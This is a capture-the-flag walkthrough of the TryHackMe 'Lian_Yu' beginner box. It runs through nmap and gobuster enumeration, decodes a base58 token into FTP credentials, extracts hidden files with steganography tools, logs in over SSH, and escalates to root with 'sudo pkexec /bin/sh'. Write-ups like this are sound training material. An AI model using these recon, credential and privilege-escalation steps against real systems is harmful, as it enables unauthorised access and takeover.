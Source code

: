 ```yaml
---
title: TryHackMe - Lian_Yu
author: Bonface
date: 2024-11-11 15:50:00 +0000
categories: [TryHackMe, Easy]
tags: [tryhackme, linux, nmap, privesc, http, ssh, linpeas]
image:
    path: /assets/img/try%20hack%20me%20/Easy/Lian_yu/0.jpeg
    alt: Lian_Yu
---
```

A beginner level security challenge.
Welcome to Lian_YU, this Arrowverse themed beginner CTF box! Capture the flags and have fun.

### nmap
```sh
21/tcp open ftp vsftpd 3.0.2
22/tcp open ssh OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey:
| 1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
| 2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
| 256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_ 256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp open http Apache httpd
|_http-server-header: Apache
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Purgatory
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4
111/tcp6 rpcbind
| 100000 3,4
111/udp6 rpcbind
| 100024 1
34537/tcp status
| 100024 1
50996/udp status
| 100024 1
58218/udp6 status
|_ 100024 1
59541/tcp6 status
34537/tcp open status 1 (RPC #100024)
```

### http_80
**ip**  `10.10.5.96`

To Do List
-------------------------------------
- Visit the site
- Surf around
- Vie source code
- Run Gobuster

#### The Site
![](../assets/img/try_hack_me/Easy/Lian_yu/1.png)


The site and the source code has nothing much.
Also i ran `robots.txt` and got nothing.

### Gobuster
```sh
gobuster dir -u http://10.10.5.96 -w /usr/share/wordlists/dirb/common.txt
```

![](../assets/img/try_hack_me/Easy/Lian_yu/2.png)

```sh
gobuster dir -u http://10.10.5.96 -w /usr/share/wordlists/dirbuster/directory-list-2.3-
medium.txt
```
![](../assets/img/try_hack_me/Easy/Lian_yu/3.png)
`/island`
![](../assets/img/try_hack_me/Easy/Lian_yu/4.png)

`/island/source code`
![](../assets/img/try_hack_me/Easy/Lian_yu/5.png)

Here we get `vigilante`

### Gobuster /island

```sh
gobuster dir -u http://10.10.5.96/island -w /usr/share/wordlists/dirbuster/directory-list-2.3-
medium.txt
```

![](../assets/img/try_hack_me/Easy/Lian_yu/6.png)

Got the directory `/2100`

![](../assets/img/try_hack_me/Easy/Lian_yu/7.png)

![](../assets/img/try_hack_me/Easy/Lian_yu/8.png)
got a directory extension  `.ticket`

``Gobuster -x .tixket``

```sh
gobuster dir -u http://10.10.5.96/island -w /usr/share/wordlists/dirbuster/directory-list-2.3-
medium.txt -x .ticket
```

```sh
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:
http://10.10.117.94
[+] Method:
GET
[+] Threads:
10
[+] Wordlist:
/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent:
gobuster/3.5
[+] Extensions:
ticket
[+] Timeout:
10s
===============================================================
2023/10/01 20:06:41 Starting gobuster in directory enumeration mode
===============================================================
Progress: 20244 / 441122 (17.59%)
/green_arrow.ticket (Status: 200) [Size: 71]
===============================================================
2023/10/01 20:17:28 Finished
===============================================================
```

`/green_arrow.tcket`

```sh
curl http://10.10.5.96/island/2100/green_arrow.ticket
```
- This is just a token to get into Queen's Gambit(Ship)
`RTy8yhBQdscX`

I copied ‘RTy8yhBQdscX’ and used an online tool to identify the hash.
It turns out that the text was encoded with base58. so i opened cyberchef.   `!#th3h00d `

### ftp_21

username  `vigilante`
password  `!#th3h00d`

 ```sh
ftp 10.10.5.96
```

From the FTP server i was able to get some files
• aa.jpg
• Leave_me_alone.PNG
• Queenâ€™s_Gambit.PNG
• .other_user

![](../assets/img/try_hack_me/Easy/Lian_yu/9.png)

After checking the flies with binwalk i noticed that Leave_me_alone.PNG has a file format error.

I tried to correct the error since it was a `.PNG` file. The first 16 digits magic number of a .PNG file is `89 50 4E 47 0D 0A 1A 0A`.

I edited the magic number of Leave_me_alone.PNG
using `Hexedit` and see if the error would be corrected.
![](../assets/img/try_hack_me/Easy/Lian_yu/10.png)

After i edited the magic numbers i used binwalk to look at it again and now the error is gone.
I opened Leave_me_alone.PNG to check the content.
![](../assets/img/try_hack_me/Easy/Lian_yu/11.png)

I used `stegseek` to see if there are any hidden files in all the files i got from the ftp server.
![](../assets/img/try_hack_me/Easy/Lian_yu/12.png)

I found out that there is an hidden file `ss.zip` inside `aa.jpg`.

The content of Leave_me_alone.PNG is the passphrase to extract the hidden contents in aa.jpg using `steghide` or any other stenography tool.

The hidden file is a .zip file. i extracted the content using unzip.
![](../assets/img/try_hack_me/Easy/Lian_yu/13.png)

###  ssh_22

#### Details

Open ssh port = `22`
username = `slade`
password = `M3tahuman`

```sh
 ssh slade@10.10.5.96
```
![](../assets/img/try_hack_me/Easy/Lian_yu/14.png)

Now we can read the user flag easily.
![](../assets/img/try_hack_me/Easy/Lian_yu/15.png)


### Privilege Escalation
#### To Do List
sudo -l
cat /etc/crontab
find / -perm -u=s -type f 2>/dev/null

![](../assets/img/try_hack_me/Easy/Lian_yu/16.png)

After checking the sudoers it shows that i can use /usr/bin/pkexec to escalate my privilege since it is the sudoers file.

I checked gtfobins to see how i would use it.
```sh
sudo pkexec /bin/sh
```
![](../assets/img/try_hack_me/Easy/Lian_yu/17.png)

**THAT'S IT FOR THE ROOM!!!**
